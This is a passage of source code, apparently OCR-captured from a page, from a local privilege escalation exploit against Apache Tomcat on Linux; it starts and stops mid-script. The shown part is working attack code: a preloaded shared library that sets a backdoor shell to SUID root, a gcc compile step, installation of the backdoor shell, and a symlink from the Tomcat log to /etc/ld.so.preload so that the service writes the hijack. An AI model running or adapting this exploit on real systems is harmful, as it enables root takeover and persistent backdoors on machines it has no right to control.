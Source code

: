 ```
chmod("$BACKDOORPATH", 04777);

unlink("/etc/ld.so.preload");

}

return old_geteuid();

}

*solibeof*

gcc -Wall -fPIC -shared -o $PRIVESCLIB $PRIVESCSRC -ldl

if [ $? -ne 0 ]; then

echo -e “\n[!] Failed to compile the privesc lib $PRIVESCSRC.”

cleanexit 2;

fi

# Prepare backdoor shell

cp $BACKDOORSH $BACKDOORPATH

echo -e “\n[+] Backdoor/low-priv shell installed at: \n`ls -l $BACKDOORPATH`”

# Safety check

if [ -f /etc/ld.so.preload ]; then

echo -e “\n[!] /etc/ld.so.preload already exists. Exiting for safety.”

cleanexit 2

fi

# Symlink the log file to ld.so.preload

rm -f $TOMCATLOG && ln -s /etc/ld.so.preload $TOMCATLOG

if [ $? -ne 0 ]; then

echo -e “\n[!] Couldn’t remove the $TOMCATLOG file or create a symlink.”

cleanexit 3

fi

echo -e “\n[+] Symlink created at: \n`ls -l $TOMCATLOG`”

# Wait for Tomcat to re-open the logs

echo -ne “\n[+] Waiting for Tomcat to re-open the logs/Tomcat service restart…”

echo -e  "\nYou could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed ![:wink:](img/72b158ac013b9bc9875813ca4ffe6fc1.png ":wink:")

"

while :; do

```